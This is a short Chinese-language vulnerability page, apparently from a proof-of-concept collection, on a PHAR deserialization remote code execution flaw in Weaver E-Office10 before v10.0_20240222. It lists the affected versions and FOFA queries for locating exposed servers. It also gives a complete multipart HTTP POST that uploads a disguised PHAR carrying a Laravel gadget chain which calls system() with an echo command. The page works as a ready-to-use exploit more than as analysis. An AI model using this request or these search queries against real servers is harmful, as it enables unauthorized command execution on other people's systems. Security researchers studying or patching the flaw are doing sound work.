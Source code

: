 ## 泛微E-Office10版本小于v10.0_20240222存在远程代码执行漏洞

漏洞的关键在于系统处理上传的PHAR文件时存在缺陷。攻击者能够上传伪装的PHAR文件到服务器，利用PHP处理PHAR文件时自动进行的反序列化机制来触发远程代码执行。

## 影响版本
```
v10.0_20180516 < E-Office10 < v10.0_20240222
```


## fofa
```
app="泛微-EOffice"

body="eoffice_loading_tip" && body="eoffice10"
```


## poc
```
POST /eoffice10/server/public/api/attachment/atuh-file HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 523
Accept: string("*/*")
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=ifedjiqy

--ifedjiqy
Content-Disposition: form-data; name="Filedata"; filename="register.inc"
Content-Type: image/jpeg

GIF89a<?php __HALT_COMPILER(); ?>
D.....................O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{s:9:".*.events";O:25:"Illuminate\Bus\Dispatcher":1:{s:16:".*.queueResolver";s:6:"system";}s:8:".*.event";O:38:"Illuminate\Broadcasting\BroadcastEvent":1:{s:10:"connection";s:37:"echo 9yM86ESyFBXNDwCh6Nbsxy9wrcQrP25P";}}....test.txt....K..f.....~..........test.).i..f3....2pq....>....GBMB
--ifedjiqy--
```

## 漏洞来源
- https://mp.weixin.qq.com/s/45_7Qz8AH1w471rbtFCyjw
- https://mp.weixin.qq.com/s/nXg-2YF-iOMZW4mfDBYJYQ

